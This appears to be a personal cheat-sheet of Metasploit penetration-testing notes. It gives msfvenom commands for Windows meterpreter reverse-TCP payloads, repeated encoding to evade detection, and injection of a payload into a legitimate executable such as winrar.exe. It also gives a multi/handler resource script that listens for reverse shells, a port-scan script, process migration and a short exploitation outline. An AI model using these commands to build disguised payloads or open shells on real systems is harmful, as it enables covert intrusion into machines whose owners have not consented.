 
## MSF payloads
```
kali> msfvenom --list payloads
kali> msfvenom -a x86 -p windows/meterpreter/reverse_tcp .......
kali> msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp .......
```

-> encoding and injecting
```
msfvenom --list encoders
-e -> $encode_type to set the encoding type
-i 10 -> to set the number of encoding iterations to 10, the more the better
-x winrar.exe -> to inject payload into another .exe programm
-k
```

`run post/windows/manage/migrate` -> migrate the process to another one

## automation
`/usr/share/metasploit-framework/scripts/resource` -> some automation scripts

`vim handler.rc`
```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.10.2
set LPORT 1234
run
```
to run the script `msfconsole -r handler.rc`

`vim scan.rc`
```
use auxilary/scanner/portscan/tcp
set rhost 10.10.10.2
run
```
to run the script `msfconsole -r scan.rc`

-> to export command you types:
`msf6> makerc ~/Desktop/mycommands.rc`



# Exploitation

## Windows Exploitation
1. nmap
2. msf6 > search Proftp
3. exploit it 

if meterpreter session is x86 and the target system is x64 so set the payload to x64
`set payload windows/x64/meterpreter/reverse_tcp` 
